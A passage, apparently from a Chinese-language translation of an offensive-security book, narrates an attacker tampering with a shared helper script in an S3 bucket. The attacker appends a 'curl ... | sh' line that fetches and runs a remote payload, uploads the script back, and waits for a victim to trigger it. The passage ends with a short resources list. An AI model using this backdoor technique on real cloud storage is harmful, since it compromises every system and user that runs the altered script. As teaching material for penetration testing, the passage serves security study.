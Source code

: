 ```
root@Point1:~/# **aws s3api get-object \**
**--bucket gretsch-streaming-jobs\**
**--key helpers/ecr_login.sh ecr-login.sh \**
**--profile dmp-sync**

root@Point1:~/# **echo "true || curl https://gretsch-helpers.s3.amazonaws.com/helper.sh |sh" >> ecr-login.sh**

root@Point1:~/# **aws s3api put-object \**
**--bucket gretsch-streaming-jobs \**
**--key helpers/ecr-login.sh \**
**--body ecr-login.sh \**
**--profile dmp-sync**
```

现在我们等待。我们等上几个小时，等待某个地方、某个人触发我们的有效载荷，如果它真的会被触发的话。毕竟，我们无法保证*ecr-login*助手确实被使用了。我们甚至没有费心去检查它到底做了什么。无论如何，现在已经太晚了。让我们祈祷一切顺利吧。

## 资源

+   AWS STS 的文档可以在[`amzn.to/38j05GM`](https://amzn.to/38j05GM)找到。

+   更多关于 AWS Lambda 的强大功能，请参见 Kelsey Hightower（Google 员工）在 KubeCon 2018 上展示的演讲《Kubernetes and the Path to Serverless》：[`bit.ly/2RtothP`](http://bit.ly/2RtothP)*.*（没错，你没看错——他在 Google 工作。）
